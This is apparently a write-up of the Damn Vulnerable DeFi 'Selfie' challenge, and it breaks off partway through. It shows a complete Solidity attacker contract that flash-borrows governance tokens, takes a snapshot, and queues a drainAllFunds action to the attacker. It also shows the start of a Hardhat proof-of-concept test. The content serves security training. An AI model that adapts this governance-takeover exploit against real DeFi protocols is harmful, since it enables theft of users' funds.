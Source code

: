 Here is our attacker contract, tasked with taking a loan and queueing the drain action.

```solidity
contract SelfieAttacker {
  address private immutable owner;
  SimpleGovernance private immutable governance;
  SelfiePool private immutable pool;
  DamnValuableTokenSnapshot private immutable tokenSnapshot;
  uint256 public actionId;

  constructor(address governance_, address pool_) {
    governance = SimpleGovernance(governance_);
    pool = SelfiePool(pool_);
    tokenSnapshot = SimpleGovernance(governance_).governanceToken();
    owner = msg.sender;
  }

  function receiveTokens(address token, uint256 amount) external {
    // ensure the sender is correct
    require(msg.sender == address(pool), "must be pool");
    // ensure token address is correct
    require(token == address(tokenSnapshot), "must be the correct token");

    // take snapshot while you have the balance
    tokenSnapshot.snapshot();

    // with the tokens now snapshotted, we queue an action
    // action will be made towards the loan itself, it will be a call to `drainAllFunds(address receiver)`
    // the receiver will be you of course :)
    actionId = governance.queueAction(address(pool), abi.encodeWithSignature("drainAllFunds(address)", owner), 0);

    // pay back your loan
    tokenSnapshot.transfer(address(pool), amount);
  }

  function pwn() external {
    // take their entire balance as a loan, why not
    pool.flashLoan(tokenSnapshot.balanceOf(address(pool)));
    // receiveTokens will be called as a result
  }
}
```

A proof of concept Hardhat test is given below:

```ts
describe('Damn Vulnerable Defi 6: Selfie', () => {
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;

  let token: DamnValuableTokenSnapshot;
  let governance: SimpleGovernance;
  let pool: SelfiePool;

  const TOKEN_INITIAL_SUPPLY = ethers.utils.parseEther('2000000'); // 2 million tokens
  const TOKENS_IN_POOL = ethers.utils.parseEther('1500000'); // 1.5 million tokens

  before(async () => {
    [owner, attacker] = await ethers.getSigners();

    token = await ethers
      .getContractFactory('DamnValuableTokenSnapshot', owner)
      .then(f => f.deploy(TOKEN_INITIAL_SUPPLY));
```